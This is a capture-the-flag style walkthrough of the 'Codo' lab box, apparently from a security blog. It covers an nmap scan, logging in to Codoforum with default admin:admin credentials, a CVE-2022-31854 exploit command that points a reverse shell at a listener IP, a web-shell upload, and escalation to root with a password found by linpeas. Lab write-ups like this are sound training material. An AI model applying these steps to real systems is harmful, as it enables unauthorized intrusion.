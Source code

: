 # **Codo** | PG Practice

***

Running our nmap scan we have

```
# Nmap 7.94SVN scan initiated Mon Feb 26 18:58:16 2024 as: nmap -p- -T4 -v --min-rate=1000 -sCV -oN nmap.txt 192.168.153.23
Nmap scan report for 192.168.153.23
Host is up (0.17s latency).
Not shown: 65533 filtered tcp ports (no-response)
Bug in http-generator: no string output.
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 62:36:1a:5c:d3:e3:7b:e1:70:f8:a3:b3:1c:4c:24:38 (RSA)
|   256 ee:25:fc:23:66:05:c0:c1:ec:47:c6:bb:00:c7:4f:53 (ECDSA)
|_  256 83:5c:51:ac:32:e5:3a:21:7c:f6:c2:cd:93:68:58:d8 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: All topics | CODOLOGIC
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Feb 26 19:00:58 2024 -- 1 IP address (1 host up) scanned in 162.31 seconds
```

Navigating to port 80/HTTP we have this **Codoforum** web page



![](https://i.imgur.com/TpzkWA4.png)


However there is an information disclosure of the username on this page know as **admin**


```markdown
Hi,

This is an example post in your codoforum installation.  
You can create/modify/delete all forum categories from the forum backend.

Please edit the forum title and description from the backend.

The only user available to login in the front-end is **admin** with the password that you set during the installation..........
```


trying out default credentials on the logon page, we where able to login as user **admin** with password **admin** also



![](https://i.imgur.com/Lyj7ah1.png)

Navigating to the profile edit section of this page, we are able to upload an image


![](https://i.imgur.com/4rBfd90.png)


However uploading a `shell.php` file we get this error message



![](https://i.imgur.com/phq7Qpp.png)


After several uploads found an exploit for this on `CVE-2022-31854`, which you can download from [here](https://github.com/Vikaran101/CVE-2022-31854)



![](https://i.imgur.com/oC4GpU5.png)


Running the exploit i get a **Connection refused** error, :p, as we can see the connection is made to `/admin/?page=login` endpoint, for some reasons, things are not working

```bash
python3 exploit.py --target-url 'http://192.168.153.23' --username admin --password admin --listener-ip 192.168.45.203 --port 4444 
```


![](https://i.imgur.com/bMEHppK.png)


Decided to run a directory bruteforce attack and found the `/admin` endpoint



![](https://i.imgur.com/mQFsrat.png)


Navigating there same username and password we used earlier worked!! `admin:admin`

![](https://i.imgur.com/5kDHp35.png)


According to the exploit, navigating to this directory, i saw another upload function `/admin/index.php?page=config`


![](https://i.imgur.com/N5orXIP.png)



Uploaded my `shell.php` file and according to the exploit navigated to `/sites/default/assets/img/attachments/shell.php` and truly i got my web shell, haha 🙃



![](https://i.imgur.com/bKCHWht.png)


Then got an actual shell on my listener as user `www-data`

![](https://i.imgur.com/GSer3yN.png)


Running `linpeas.sh` i found a password called `FatPanda123` 



![](https://i.imgur.com/KGSUAha.png)


Fortunately, this password didn't work for the user `offsec` but worked for the the user `root` 😎


![](https://i.imgur.com/CSY22KL.png)

GG


<button onclick="window.location.href='https://sec-fortress.github.io';">Back To Home螥</button>
